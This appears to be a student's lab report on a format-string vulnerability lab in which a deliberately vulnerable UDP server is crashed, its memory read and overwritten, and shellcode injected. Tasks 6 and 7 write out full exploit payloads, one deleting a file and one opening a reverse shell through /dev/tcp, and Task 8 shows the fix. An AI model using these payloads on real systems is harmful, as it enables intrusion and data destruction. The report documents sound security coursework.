# CS315 Lab3

[TOC]

## SID: 12012919

## Name：廖铭骞

**Preliminary**

To simplify the tasks in this lab, we turn off the address randomization using the following command

 `sudo sysctl -w kernel.randomize_va_space=0`

## Task 1 The Vulnerable Program

In the above window, I launch the client by `nc -u localhost 9090`

In the below window, I launch the server firt by `gcc -z execstack -o server server.c`, then by `./server`

Then, the server will print the messages I write in the client window.

The screenshot is shown as belows.



## Task2 Understanding the Layout of the Stack

To see the stack address better, I add some `printf`  statements in the code.

**Please notice that I add a local variable p, so the distance will be different.**

### Question1

Execute it, use a string of `%.8x` as input of `msg`, then get the screenshot.



According to the screenshot above, we can see that the address of `msg` is `0xbfffe520`, the address of **2** is `0xbfffe520 - 4 = 0xbfffe51c`

Here I use `gdb server` to debug the executable file, to know the RA of  `myprintf()`, which is `0x080487c6`.



Since the return address of   is `0x080487c6`, and the address of format string is before the `0xbfffe520`, and the argument of `myprintf()` is after `0x080487e6` , so the address of **1** is `0xbfffe520-4*13 = 0xbfffe4ec`



We can know that the address of **3** is `buf[0]`, which is `0xbfffe560`

### Question2

The distance in my case is` 0xbfffe560`-`0xbfffe4ec`= `0x74`

## Task3 Crash the Program

Input a string of continuous `%s`，and the server will be crashed. The reason is that the `%s` will let the pointer point to an invalid address, then the server will be crashed. The screenshot is shown as below.



## Task 4: Print Out the Server Program’s Memory

### Stack Data

Since my input is a string of `%.8x`, convert it to ASCII coding is `252E3878`, since the machine is small-endian, so if I need to pring out the first four bytes of my input, there will be  `28`.



### Heap Data

From the `helper() ` function, we could know that the address of `secret` is `0x08048850`, then combine  27 `%.8x` and 1 `%s` to print it out. The screenshot is shown below.



## Task 5: Change the Server Program’s Memory

### Task 5.A: Change the value to a different value.

According to the `helper()` function, we could know that the address of `target` is `0x0804a044`, then combine it with 28`%.8x` and a `%n` to write over the value of `target`



### Task 5.B: Change the value to **0x500**.

`0x500` = `1280`.

Calculation: 1014 = (1280 - 26\*8 - 4 - 27\*2)

What the 27*2 means is that, there are  `,` and ` ` between each `%.8x`



### Task 5.C: Change the value to **0xFF990000**

Since `0xFF99` = 65433, and I need to set one block to `0xFF99` and set the other one to` 0x0000`. 

To achieve `0xFF99`, I need to calculate that `65433 - 26*8 - 4*3 = 65213`

After calculating and trying, to achieve `0x0000` on the other part,  I need to write `103`.

The result is shown as below.



## Task 6: Inject Malicious Code into the Server Program

Our goal in task 6 is to replace the RA with the beginning of the malicious code.

First, we need to place the malicious code to a proper place by using `printf`. To achieve this, we need to find the beginning  address of buffer. We can use the address of `msg` and distance we got in Task 2 to get it.

We should find the address of `msg` after placing the malicious code, from the above tasks, I need `27` `%.8x` to get to the beginning of buf array.



The address of `buf[0]` is `0xbfff ebe0`, and I choose ` buf[150]` to place the malicious code, whose address is `0xbfff ec76`

 So I need to write `60534`(0xec76) to first half byte, and the remaining byte is `49151(bfff) + 65536 - 60534 = 54153`

The command is 

`echo $(printf "\x9c\xeb\xff\xbf")@@@@$(printf "\x9e\xeb\xff\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.60306x%hn%.54153x%hn$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > input`

and `nc -u localhost 9090 < input`

After that, the file is removed.

The screenshot is shown as below.



Since the `NOP` will do nothing about our malicious code, so when the program is executed, `NOP` will be omitted. The function of `NOP` is to provide an area to allow us to just calculate the approximate address of malicious code, no need to calculate it exactly.

## Task 7: Getting a Reverse Shell

From Task6, we know that the address of `buf[0]` is `0xbfff ebe0`, and `buf[150]` is `0xbfff ec76`

Different from Task6, we need to modify the shellcode in it, so instead of running the `/bin/rm` command using bash, our shellcode runs `/bin/bash -i > /dev/tcp/10.0.2.5/7070 0<&1 2>&1`

Also, I need to write `60534`(0xec76) to first half byte, and the remaining byte is `49151(bfff) + 65536 - 60534 = 54153`, which is the same as Task6.

The command is

` echo $(printf "\x9c\xeb\xff\xbf")@@@@$(printf "\x9e\xeb\xff\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.60306x%hn%.54153x%hn$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > task7input`

and `nc -u localhost 9090 < task7input`

and the screenshot is shown as below.



## Task 8: Fixing the Problem

The occurrence of the warning is because in the `printf()`, there is only a format string, and it is easy for user to exploit and change the behaviour of code and cause some unexpected results.

We could fix the warning by converting the `printf(msg)` to `printf("%s\n", msg)` .

Recompile the program, there are no warning, then we attack the codeby input `%.8x` to see whether it will print something interesting, the result is shown as below.

The attacks will not work as before.

